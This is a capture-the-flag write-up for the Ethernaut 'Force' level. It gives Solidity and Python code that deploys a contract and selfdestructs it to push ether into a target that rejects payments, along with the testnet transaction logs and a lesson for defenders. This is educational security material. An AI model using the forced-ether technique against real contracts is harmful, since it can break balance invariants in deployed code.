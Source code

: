 # 07 - Force

## Challenge

Some contracts will simply not take your money ¯\\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## Summary

The contract `Force` is a simple contract that does not accept any ether. The goal is to make the balance of the contract greater than zero. At first this seems impossible because we cannot call `send` or `transfer` on the contract. However, we can use a contract to call `selfdestruct` on itself and send the balance to `Force`.

[`selfdestruct`](https://solidity-by-example.org/hacks/self-destruct/):
- Contracts can be deleted from the blockchain by calling `selfdestruct`.
- `selfdestruct` sends all remaining Ether stored in the contract to a designated address.

This allows us to create a contract that will send its balance to `Force` when it is selfdestructed.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x4E3Ac6C6Bd8a612407B862Ae356df8356fe984Ea'
```

We first deploy a contract that has 2 methods, `deposit()` which can deposit balance, and `hack(address)` which destructs the contract and sends the balance to `address`.

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceHack {
    uint public balance = 0;

    function deposit() external payable {
        balance += msg.value;
    }

    function hack(address payable _to) external payable {
        selfdestruct(_to);
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['ForceHack']

>>> contract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> contract.deploy()
2023-06-07 20:40:22.246 | DEBUG    | cheb3.contract:deploy:92 - Deploying contract ...
2023-06-07 20:40:34.201 | INFO     | cheb3.contract:deploy:97 - The contract is deployed at 0x58b1Ceb2728Fe3F2fE673b8e23b1fC641bc145A2
```

Next, we can first call `deposit` and then `hack`:

```py
>>> contract.functions.balance().call()
0
>>> contract.functions.deposit().send_transaction(value=100, gas_limit=1000000)
2023-06-07 20:43:56.826 | INFO     | cheb3.contract:send_transaction:230 - (0x58b1Ceb2728Fe3F2fE673b8e23b1fC641bc145A2).deposit transaction hash: 0xccef39b829986ef685e32b7e5fec08954da3322bc4bd220c2e901350965e7b3f
AttributeDict({'blockHash': HexBytes('0xa93a29aac6ad80f51729c040f56a91fb840ff2aa7b8c44eb7f0a1d42acd58291'), 'blockNumber': 9141736, 'contractAddress': None, 'cumulativeGasUsed': 6940184, 'effectiveGasPrice': 69, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 43520, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x58b1Ceb2728Fe3F2fE673b8e23b1fC641bc145A2', 'transactionHash': HexBytes('0xccef39b829986ef685e32b7e5fec08954da3322bc4bd220c2e901350965e7b3f'), 'transactionIndex': 44, 'type': 0})
>>> contract.functions.balance().call()
100
>>> contract.functions.hack(contract_addr).send_transaction(gas_limit=1000000)
2023-06-07 20:45:10.199 | INFO     | cheb3.contract:send_transaction:230 - (0x58b1Ceb2728Fe3F2fE673b8e23b1fC641bc145A2).hack transaction hash: 0xdb7638e542f6ab5eb78ad49f6f6f9515dca009f486ed31e9a8f1d22b1f2cfde8
AttributeDict({'blockHash': HexBytes('0x5afe6676450c1cdf7427d98ca46759b30ee64bc25d84bd4d8145c7d0822eab79'), 'blockNumber': 9141741, 'contractAddress': None, 'cumulativeGasUsed': 14379718, 'effectiveGasPrice': 67, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 29439, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x58b1Ceb2728Fe3F2fE673b8e23b1fC641bc145A2', 'transactionHash': HexBytes('0xdb7638e542f6ab5eb78ad49f6f6f9515dca009f486ed31e9a8f1d22b1f2cfde8'), 'transactionIndex': 81, 'type': 0})
```

Now if we try to call `contract.functions.balance().call()` again, it will throw exception because contract was already destructed. 

From Chrome Devtool, `await getBalance(contract.address)` shows non-zero as expected since our contract was selfdestructed and the balance was sent to `Force` contract.

Finally, submit the instance to pass the level.

## Afterword

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.